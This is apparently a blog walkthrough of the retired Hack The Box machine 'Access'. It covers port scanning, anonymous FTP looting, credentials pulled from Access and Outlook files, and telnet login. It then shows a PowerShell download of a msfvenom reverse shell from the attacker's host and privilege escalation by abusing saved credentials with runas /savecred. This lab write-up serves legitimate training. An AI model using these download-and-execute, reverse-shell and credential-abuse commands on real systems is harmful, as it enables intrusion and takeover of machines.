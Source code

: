 ```yaml
---
layout: post
title: "Access: Hack The Box Walkthrough"
date: 2019-03-03 04:43:45 +0000
last_modified_at: 2019-03-03 04:46:16 +0000
category: Walkthrough
tags: ["Hack The Box", Access, retired]
comments: true
image:
  feature: access-htb-walkthrough.jpg
  credit: Pexels / Pixabay
  creditlink: https://pixabay.com/en/dark-door-door-handle-light-open-1852985/
---
```


This post documents the complete walkthrough of Access, a retired vulnerable [VM][1] created by [egre55][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Access is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.98 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-09 10:37:40 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.98
Discovered open port 23/tcp on 10.10.10.98
Discovered open port 21/tcp on 10.10.10.98
```

`masscan` finds three open ports: `21/tcp`, `23/tcp` and `80/tcp`. Let's do one better with `nmap` scanning these discovered ports.

```
# nmap -n -v -Pn -p21,23,80 -A --reason -oN nmap.txt 10.10.10.98
...
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```

Since anonymous FTP is allowed, let's check it out first.

<a class="image-popup">
![ee418d6f.png](/assets/images/posts/access-htb-walkthrough/ee418d6f.png)
</a>

There's a huge file in the `Backups` directory—`backup.mdb`. It appears to be a Microsoft Access Jet Database (MDB) file.

<a class="image-popup">
![0ce46389.png](/assets/images/posts/access-htb-walkthrough/0ce46389.png)
</a>

There's also a big file—`Access Control.zip`, in the `Engineers` directory.

<a class="image-popup">
![ea05e083.png](/assets/images/posts/access-htb-walkthrough/ea05e083.png)
</a>

The archive file is password-protected and it appears to contain a Personal Storage Table (PST) file in it.

## Microsoft Office

I know there are Linux tools to read MDB and PST files but for the sake of convenience, let's use Microsoft Office to open them. I'll use Microsoft Access to read the MDB file. Here's what I found in the `auth_user` table.

<a class="image-popup">
![access.png](/assets/images/posts/access-htb-walkthrough/access.png)
</a>

The password `access4u@security` is the one to extract the PST file from the archive. I'll use Microsoft Outlook to read the PST file. There's only one email in the mailbox.

<a class="image-popup">
![outlook.png](/assets/images/posts/access-htb-walkthrough/outlook.png)
</a>

Another credential (`security:4Cc3ssC0ntr0ller`) in the bag!

## Telnet

Let's give the credential a shot with the Telnet service.

<a class="image-popup">
![16c6c1e1.png](/assets/images/posts/access-htb-walkthrough/16c6c1e1.png)
</a>

Awesome.

The file `user.txt` is at `security`'s desktop.

<a class="image-popup">
![0c8d6cb5.png](/assets/images/posts/access-htb-walkthrough/0c8d6cb5.png)
</a>

## Privilege Escalation

Telnet is painfully slow. Let's run a reverse shell in PowerShell. First of all, let's write a `wget` script in PowerShell. Note that this system is running Windows Server 2008. As such, only PowerShell 2.0 is available. Echo the following lines to `C:\Users\security\Downloads\wget.ps1`.

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile($Args[0],$Args[1])
```

<a class="image-popup">
![7638e0eb.png](/assets/images/posts/access-htb-walkthrough/7638e0eb.png)
</a>

Next, generate a reverse shell in PowerShell with `msfvenom` like so.

<a class="image-popup">
![bfe9f363.png](/assets/images/posts/access-htb-walkthrough/bfe9f363.png)
</a>

Run the following commands in the `telnet` session to transfer `rev.ps1` over.

```
powershell -ExecutionPolicy Bypass -File wget.ps1 http://10.10.12.246/rev.ps1 rev.ps1
```

Now, we can execute the reverse shell with the following command.

```
powershell -ExecutionPolicy Bypass -NoExit -File rev.ps1
```

The `-NoExit` switch indicates that we don't want to exit from the thread. We should get a reverse shell in our `nc` listener.

<a class="image-popup">
![5f59bc8d.png](/assets/images/posts/access-htb-walkthrough/5f59bc8d.png)
</a>

During enumeration of `security`'s account, I ran the `cmdkey` command to list the stored credentials in the box and this is what I saw.

<a class="image-popup">
![d1e7b1c4.png](/assets/images/posts/access-htb-walkthrough/d1e7b1c4.png)
</a>

Perfect. This means that I can use the `/savecred` switch in `runas` to impersonate Administrator without knowing the password! Now, let's claim the prize with the following command:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"
```

<a class="image-popup">
![6874f21f.png](/assets/images/posts/access-htb-walkthrough/6874f21f.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/156
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/
